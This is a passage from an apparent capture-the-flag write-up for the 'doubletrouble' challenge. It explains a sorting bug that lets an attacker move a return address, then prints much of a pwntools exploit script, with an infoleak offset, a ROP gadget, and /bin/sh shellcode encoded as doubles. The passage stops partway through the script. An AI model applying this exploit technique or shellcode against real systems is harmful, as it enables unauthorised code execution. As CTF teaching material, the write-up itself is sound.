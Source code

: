 Also to find the offset from the infoleak to where our shellcode is, we can just run the exploit once with our shellcode, and see where our shellcode ends up in respect to the stack infoleak. When I did this, I found that the offset was `+0x1d8` bytes from the infoleak.

## tl ; dr

A quick overview of this challenge
```
*    Program scans in up to 64 doubles, and sorts them from smallest to largest
*    Bug in `findArray` allows us to overwrite the float count with a larger value, thus when it sorts the doubles, it will sort values past our input, allowing us to move the return address.
*    Format payload to call rop gadget, then shellcode on the stack using stack infoleak. The canary has to be within a set range.
*    Format the shellcode to be together after the sorting
*    Brute force the stack canary untill it is within a range that wouldn't crash our exploit
```
## Exploit

putting it all together, we get the following exploit:
```
# Import the libraries
from pwn import *
import struct

# Establish the target
target = process('./doubletrouble')
#gdb.attach(target, gdbscript='b *0x8049733')
#target = remote('pwn.chal.csaw.io', 9002)

# Get the infoleak, calculate the offset to our shellcode
stack = target.recvline()
stack = stack.replace("\x0a", "")
stack = int(stack, 16)
scadr = stack + 0x1d8

# Create the integer we will create, that will be stored as the double after the ROPgadget 0x804900a, which is the first return address we put
ret = "0x8049010" + hex(scadr).replace("0x", "")
ret = int(ret, 16)

# Scan in some of the input
target.recvuntil("How long: ")


# Establish the four blocks as floats, which make up our shellcode
s1 = "-9.455235083177544e-227"# 0x9101eb51e1f7c931
s2 = "-6.8282747051424842e-229"# 0x90909068732f2f68
s3 = "-6.6994892300412978e-229"# 0x9090406e69622f68
s4 = "-1.3287388429188698e-231"# 0x900080cd0bb0e389
# shellcode does the following:
'''
   0xffff7ca0:    xor    ecx,ecx
   0xffff7ca2:    mul    ecx
   0xffff7ca4:    push   ecx
   0xffff7ca5:    jmp    0xffff7ca8
   0xffff7ca7:    xchg   ecx,eax
   0xffff7ca8:    push   0x68732f2f
   0xffff7cad:    nop
   0xffff7cae:    nop
   0xffff7caf:    nop
   0xffff7cb0:    push   0x6e69622f
   0xffff7cb5:    inc    eax
   0xffff7cb6:    nop
```
